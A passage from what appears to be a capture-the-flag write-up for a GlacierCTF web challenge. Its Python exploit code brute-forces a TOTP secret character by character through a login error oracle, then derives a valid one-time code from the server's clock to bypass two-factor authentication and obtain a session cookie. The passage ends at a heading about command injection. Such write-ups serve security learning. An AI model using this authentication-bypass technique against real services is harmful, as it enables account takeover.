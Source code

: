 ```python
    }
    response = send_otp_request(data, "/login.php")
    # print(response.text)
    if "Wrong credentials" in response.text:
       
        return False
    else:
        
        return True 

def convert_time(data): 
    date_string = data
    dt_object = datetime.strptime(date_string, "%a, %d %b %Y %H:%M:%S %z")
    return int(dt_object.timestamp())

def get_time_from_page():
    response = requests.get(url_main+"/login.php")
    pattern = r"[A-Za-z]{3}, \d{2} [A-Za-z]{3} \d{4} \d{2}:\d{2}:\d{2} \+\d{4}"

    matches = re.findall(pattern, response.text)
    return matches


url_main = "https://8cab891804e0738b14747428d79742fe.glacierchat.web.glacierctf.com"  # Adres URL

def two_auth(otp):
    data = {
        "form_name": "totp",
        "totp": otp
    }
    response = send_otp_request(data, '/totp.php')
    print(response.text)

for offsety in range(1,9):
    for payl in "ABCDEFGHIJKLMNPQRSTUVWXYZ234567":
        first_step(payl, offsety)
print(key_)

data_page = get_time_from_page()[0]
data_timestamp = convert_time(data_page)

totp = pyotp.TOTP(key_)
token = totp.at(data_timestamp)
print(token)
two_auth(token)
print(cookies["PHPSESSID"])

```
---

## Step 5: Command Injection Discovery
